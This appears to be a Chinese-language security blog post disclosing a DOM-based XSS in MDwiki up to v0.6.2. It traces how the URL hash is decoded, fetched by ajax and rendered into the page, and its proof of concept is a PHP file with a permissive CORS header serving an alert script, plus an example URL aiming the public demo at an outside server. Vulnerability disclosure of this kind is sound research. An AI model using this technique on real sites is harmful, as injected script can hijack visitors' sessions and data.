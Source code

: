 ```yaml
---
layout: post
title: MDwiki &lt;= v0.6.2 DomXSS Vulnerability
---
```

原本以为只是腾讯某站点实现的问题，后面黑哥提醒我看源码中 Github 地址，才发现是开源的 [MDwiki](https://github.com/Dynalon/mdwiki) 通用系统。（MDwiki 是一个完全使用 HTML5/Javascript 技术构建，完全运行在客户端的 Wiki/CMS 系统。无需专门的服务器软件，只需将 mdwiki.html 上传到你存放 markdown 文件的目录。）问题出现在程序获取 location.hash 值（正常情况下为 test.md）解析后进行 ajax 请求动态加入页面中。 

#### MDwiki.min.js

将压缩后的 JavaScript 解压方便调试，混淆变量暂时不管，n() ：

        function n() {
            var b;
            b = window.location.hash.substring(window.location.hash.startsWith("#!") ? 2 : 1), b = decodeURIComponent(b);
            var c = b.indexOf("#"); - 1 !== c ? (a.md.inPageAnchor = b.substring(c + 1), a.md.mainHref = b.substring(0, c)) : a.md.mainHref = b
        }

变量 b 获取 location.hash #! 后的值并 URLDecode ，随后赋值给 a.md.mainHref 。

#### ajax getURL
	
	 var d = {
        url: a.md.mainHref,
        dataType: "text"
    };
    a.ajax(d).done(function (a) {
        b = a, c()
    }).fail(function () {
        var b = a.md.getLogger();
        b.fatal("Could not get " + a.md.mainHref), c()
    })
    
将请求 a.md.mainHref 获取内容，完成后回调 b 变量为 a:页面内容。
	
	var e = d(b);
	a("#md-content").html(e), b = "";
	var g = a.Deferred();
	f(g), g.always(function () {
	    c()
	})
	
e = d(b), b 要求等于 Payload，追 d function:

    function d(b) {
        var c = {
            gfm: !0,
            tables: !0,
            breaks: !0
        };
        "original" === a.md.config.lineBreaks ? c.breaks = !1 : "gfm" === a.md.config.lineBreaks && (c.breaks = !0), marked.setOptions(c);
        var d = marked(b);
        return d
    }

e 值经过 d 函数 --》 marked(b) 函数的渲染后被动态添加到 #md-content 中，导致漏洞产生。

#### PoC

我们可以构造一个页面写入 Payload 需设置 ACCESS-CONTROL-ALLOW-ORIGIN 头：

	cat test/mdwiki.php
	<?php
	
	header("ACCESS-CONTROL-ALLOW-ORIGIN:*");
	?>
	<script>alert(location.href)</script>
	
e.g: [http://dynalon.github.io/mdwiki/mdwiki.html#!http://server.n0tr00t.com/test/mdwiki.php](http://dynalon.github.io/mdwiki/mdwiki.html#!http://server.n0tr00t.com/test/mdwiki.php)